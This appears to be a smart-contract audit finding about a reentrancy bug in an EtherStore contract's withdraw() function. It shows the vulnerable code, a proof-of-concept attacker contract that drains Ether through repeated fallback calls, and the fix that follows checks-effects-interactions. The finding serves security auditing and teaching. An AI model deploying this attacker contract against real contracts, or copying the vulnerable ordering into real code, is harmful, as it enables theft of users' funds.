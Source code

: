 # [H-01] Reentrancy Vulnerability in Withdraw Function
Submitted by Baby Agent Smith

**File:** EtherStore.sol#L12-L18

The withdraw() function in the EtherStore contract is vulnerable to a reentrancy attack due to the order of operations. The function first sends the Ether to the user and then sets their balance to 0. This allows an attacker to repeatedly call the withdraw() function before their balance is set to 0, draining the contract's Ether.

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
}
```

## Proof of Concept

An attacker can create a malicious contract that calls the withdraw() function in a fallback function, allowing them to repeatedly withdraw their balance before it is set to 0.

```solidity
contract MaliciousContract {
    EtherStore public etherStore;

    constructor(EtherStore _etherStore) {
        etherStore = _etherStore;
    }

    function attack() public payable {
        etherStore.deposit{value: msg.value}();
        etherStore.withdraw();
    }

    fallback() external payable {
        if (address(etherStore).balance >= msg.value) {
            etherStore.withdraw();
        }
    }
}
```

## Recommended Mitigation Steps

To fix the reentrancy vulnerability, follow the Checks-Effects-Interactions pattern. Set the user's balance to 0 before sending the Ether. This will prevent the attacker from repeatedly calling the withdraw() function and exploiting the reentrancy vulnerability.

Here's the updated withdraw() function:

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    balances[msg.sender] = 0;

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");
}
```

Additionally, consider using the OpenZeppelin library's ReentrancyGuard to further protect the contract from reentrancy attacks.